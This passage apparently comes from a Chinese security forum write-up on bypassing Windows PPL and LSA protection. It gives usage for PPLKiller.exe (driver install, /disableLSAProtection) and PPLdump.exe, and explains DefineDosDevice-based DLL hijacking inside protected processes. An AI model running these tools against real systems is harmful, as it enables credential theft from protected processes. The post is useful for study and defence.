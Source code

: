 Usage: PPLKiller.exe  
\[/disablePPL &lt;PID&gt;\]  
\[/disableLSAProtection\]  
\[/makeSYSTEM &lt;PID&gt;\]  
\[/makeSYSTEMcmd\]  
\[/installDriver\]  
\[/uninstallDriver\]

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-ac6e5002c11d9bd55665d80dc6ad57e2148989f7.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_44%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

运行PPLKiller.exe /installDriver安装驱动程序；

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-d7c624ac190abaf9fc4b646bfcad0be7a715a625.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_24%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

进行攻击，PPLKiller.exe /disableLSAProtection；

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-61cd5d0203293807ad16f8fa2cb99da358a21d97.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_19%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-75220d37b53c0b2cda9fbaa2693d6047d397a499.png%3Fx-oss-process%3Dimage%252fwatermark%252ctype_d3f5lw1py3jvagvp%252csize_46%252ctext_5p2o5pyo%252ccolor_ffffff%252cshadow_50%252ct_80%252cg_se%252cx_10%252cy_10)

PP(L) 模型有效地防止未受保护的进程使用OpenProcess例如扩展访问权限访问受保护的进程。

滥用 DefineDosDevice API
----------------------

函数的原型：

DefineDosDevice  
BOOL DefineDosDeviceW(  
DWORD dwFlags,  
LPCWSTR lpDeviceName,  
LPCWSTR lpTargetPath  
);

<https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-definedosdevicew>

可以定义、重新定义或删除 MS-DOS 设备名称。

具体利用分析手法：

<https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html>

基本原理为：

使用DefineDosDeviceAPI 函数来欺骗系统创建任意已知 DLL 条目。由于 PPL 不检查已知 DLL 的数字签名，因此以后可以使用它来执行 DLL 劫持攻击并在 PPL 中执行任意代码。

c:\\Users\\qax\\Desktop&gt;PPLdump.exe

Description:  
Dump the memory of a Protected Process Light (PPL) with a \*userland\* exploit

Usage:  
PPLdump.exe \[-v\] \[-d\] \[-f\] &lt;PROC\_NAME|PROC\_ID&gt; &lt;DUMP\_FILE&gt;

Arguments:  
PROC\_NAME The name of a Process to dump  
PROC\_ID The ID of a Process to dump  
DUMP\_FILE The path of the output dump file
